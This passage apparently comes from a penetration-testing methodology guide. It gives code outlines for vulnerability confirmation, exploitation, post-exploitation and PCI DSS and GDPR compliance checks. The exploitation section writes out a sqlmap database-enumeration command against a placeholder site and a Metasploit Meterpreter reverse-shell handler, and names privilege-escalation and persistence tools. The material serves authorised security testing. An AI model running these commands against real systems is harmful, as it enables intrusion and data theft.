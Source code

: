 ```python
        confirmed_vulns = self.find_intersection(nessus_vulns, openvas_vulns, burp_vulns)

        # Validate with manual testing
        for vuln in confirmed_vulns:
            validation_result = self.manual_validate(vuln)
            if validation_result['exploitable']:
                self.exploitable.append(vuln)

        return self.exploitable
```

#### Phase 4: Exploitation & Post-Exploitation

```bash
# Systematic exploitation approach
exploitation_phase() {
  # Web application exploitation
  sqlmap -u "http://target.com/page?id=1" --batch --dbs

  # Network service exploitation
  msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; run"

  # Privilege escalation
  linpeas.sh  # Linux privilege escalation
  winpeas.exe # Windows privilege escalation
}

# Post-exploitation activities
post_exploitation() {
  # Data discovery and exfiltration simulation
  find_sensitive_data

  # Lateral movement testing
  test_lateral_movement

  # Persistence mechanisms
  test_persistence_methods
}
```

## Compliance & Risk Management

### Security Compliance Technical Validation

#### PCI DSS Technical Testing

```bash
# PCI DSS automated compliance checking
pci_dss_scan() {
  # Test cardholder data protection
  check_data_encryption
  check_access_controls
  check_network_segmentation
  check_vulnerability_management

  # Generate PCI compliance report
  generate_pci_report --standard pci-dss-3.2.1 --output pci_compliance_$(date +%Y%m%d).pdf
}

# GDPR privacy compliance assessment
gdpr_compliance_check() {
  check_data_processing_lawfulness
  check_data_subject_rights
  check_privacy_by_design
```